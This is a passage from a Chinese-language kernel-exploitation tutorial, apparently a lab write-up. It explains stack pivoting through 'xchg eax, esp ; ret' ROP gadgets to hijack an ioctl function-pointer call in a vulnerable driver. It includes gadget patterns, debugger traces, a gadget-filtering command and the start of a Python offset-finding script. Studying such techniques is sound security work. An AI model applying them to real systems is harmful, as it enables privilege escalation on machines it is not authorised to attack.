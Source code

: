```asm
mov rXx, rsp ; ret
add rsp, ...; ret
xchg rXx, rsp ; ret(xchg eXx, esp ; ret)
xchg rsp, rXx ; ret(xchg esp, eXx ; ret)
```
在64位系统中，xchg rXx, rsp(xchg rsp, rXx ; ret)是个骚操作，只使用32位的寄存器，即xchg eXx, esp或xchg esp, eXx。如果rXx包含有效的内核地址，那么该xchg指令将把rsp设置为rXx的低32位的值(rax也被设置为rsp的低32位)。我们只需要xchg eax, esp这类操作32位寄存器的指令即可。这操作很骚啊~~(虽然不知道咋搞得~)
```shell
   0x400080 <_start>:	movabs rax,0xffffffff00400000
=> 0x40008a <_start+10>:	xchg   esp,eax
   0x40008c:	add    BYTE PTR [rsi],ch
   0x40008e:	jae    0x400109
   0x400090:	ins    DWORD PTR es:[rdi],dx
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdd30 --> 0x1 
0008| 0x7fffffffdd38 --> 0x7fffffffe0e4 ("/home/w0lfzhang/Desktop/kernel_exploit/examples/ROP/a")
0016| 0x7fffffffdd40 --> 0x0 
......

   0x400080 <_start>:	movabs rax,0xffffffff00400000
   0x40008a <_start+10>:	xchg   esp,eax
=> 0x40008b:	add    BYTE PTR [rsi],ch
   0x40008d:	jae    0x400108
   0x40008f:	ins    DWORD PTR es:[rdi],dx
   0x400090:	je     0x4000f3
   0x400092:	(bad)
[------------------------------------stack-------------------------------------]
0000| 0x400000 --> 0x10102464c457f   <== rsp changed
0008| 0x400008 --> 0x0 
0016| 0x400010 --> 0x1003e0002 
......
```


所以我们第一步就是让fn()执行stack pivot指令，执行完这个指令后，rsp重定向到用户空间，然后内核会执行用户空间精心布置的rop chain。我们把这类指令写到文件中，然后找出一个合适的gadget：
```
cat ropgadget | grep ': xchg eax, esp ; ret' > gadgets

gdb-peda$ x/10i *device_ioctl+105
   0x14a <device_ioctl+105>:	mov    rax,QWORD PTR [rbp-0x10]
   0x14e <device_ioctl+109>:	mov    rax,QWORD PTR [rax]
   0x151 <device_ioctl+112>:	shl    rax,0x3
   0x155 <device_ioctl+116>:	add    rax,0x0
   0x15b <device_ioctl+122>:	mov    QWORD PTR [rbp-0x8],rax
   0x15f <device_ioctl+126>:	mov    rax,QWORD PTR [rbp-0x8]
   0x163 <device_ioctl+130>:	call   rax
   0x165 <device_ioctl+132>:	nop
   0x166 <device_ioctl+133>:	mov    eax,0x0
   0x16b <device_ioctl+138>:	leave 

```
为什么说找个合适的gadget? 因为并不是所有的gadget都满足的，注意ops是指针数组，是8字节对齐的，所以我们找的gadget地址必须也要8字节对齐。可用以下脚本找到合适的gadget及计算出相应的offset：
```python
#find_offset.py

#!/usr/bin/env python
import sys

base_addr = int(sys.argv[1], 16)

f = open(sys.argv[2], 'r') # gadgets

```